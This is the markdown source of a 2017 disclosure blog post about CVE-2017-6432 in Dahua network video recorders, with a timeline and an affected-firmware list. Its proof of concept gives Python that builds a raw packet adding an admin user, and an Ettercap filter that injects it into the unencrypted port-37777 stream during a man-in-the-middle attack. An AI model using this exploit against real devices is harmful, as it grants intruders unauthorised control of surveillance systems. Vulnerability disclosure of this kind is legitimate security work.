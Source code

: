 ```yaml
---
layout: post
title:  "Dahua NVR - Exploiting - CVE-2017-6432"
date:   2017-03-09 21:00:00 +1100
categories: exploit dahua
---
```


### Introduction

After discovering the Exposures identified [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream

#### Disclosure Timeline
- 2017-02-24: Vulnerability Discovered
- 2017-03-02: Proof of Concept Written
- 2017-03-02: Dahua Contacted with plan to disclose on March 9th unless they wished otherwise.
- 2017-03-07: Dahua Responded with timeline to fix CVE-2017-6341, CVE-2017-6342, CVE-2017-6343
- 2017-03-07: Requested response for this: CVE-2017-6432 again
- 2017-03-09: Full Disclosure

### The Hardware and Software

- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android

### The method

When the Dahua Software (Mobile Phone application, or Desktop application, as identified above) connects to the NVR, it creates a TCP Connection to Socket 37777.  
This TCP Connection must be authorised before the NVR will respond.  
Without a valid authrorisation sending any data to this port, will cause the NVR to close the connection.  

As there is no encryption, any data transmitted over this connection is exposed to being read via a Man in the Middle attack, as identified in my previous report [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)

This in turn, makes this connection vulnerable to both packet manipulation and packet injection.

The Proof of Concept has been performed using Ettercap, an Ettercap Filter, and Ettercap to perform the Man in the Middle attack.  


### Proof of Concept


First, we need to generate the packet for a new user.
```python
newuser="null"
newpass="ku7"
content = "0:" + newuser + ":" + newpass + ":1:1::1"
length = chr(len(content))
payload = "\xa6\x00\x00\x00" + length + "\x00\x00\x00\x06" + "\x00"*23 + content
```
The :1:1::1 following the username and password is the groups and permissions, this is a basic account with admin rights, which can only modify configuration.  Whatever permissions and groups that are wanted, simply replace that.  
The 0: at the start is the user id.  A 0 causes the NVR to automatically assign the next free user ID to the new user.


![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.17.05 pm.png){:class="img-responsive"}


Now that we have our content, the following ettercap filter is used.  
What the packtet is I am detecting doesn't matter, as I am actually going to tack my payload (which is normally a full packet) straight onto the end of the original packet, and it will work just fine!  

```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    inject("/root/etter/newuser.packet");
    exit();
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.05.25 pm.png){:class="img-responsive"}

Now, Load this up into ettercap, do our magic, and have a peek at what happens

I hear you... That packet will be the wrong size, checksum won't match, the world will fall over.
You should drop or replace contents.  

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.25.37 pm.png){:class="img-responsive"}

Yes, I should have to do something better than this... but I don't!

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.27.29 pm.png){:class="img-responsive"}

Originally I did this by replacing the packet contents, as well as other ways.  As long as you inject into the stream, it will work

![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}


### Additional Notes

While this proof of concept is only for injecting a user, it could be used for much more.


### Workarounds

There are none, this is insecure by design.  
Until proper encryption is used, these are vulnerable.  
If you intend to use any Dahua equipment on an untrusted network, they should be accessed only using an encrypted tunnel of some sort.  

### Vendor Response

Will update this when they do.  
7 days was given for a response, while correspondance did occur, this exploit was not covered.  
Due to the logical step from the last exposures to this one, Full Disclosure is applied.

### Credits

Vulnerability discovered by Andrew Frahn (null_ku7)

### References

CVE-2017-6341, CVE-2017-6342, CVE-2017-6343: [https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
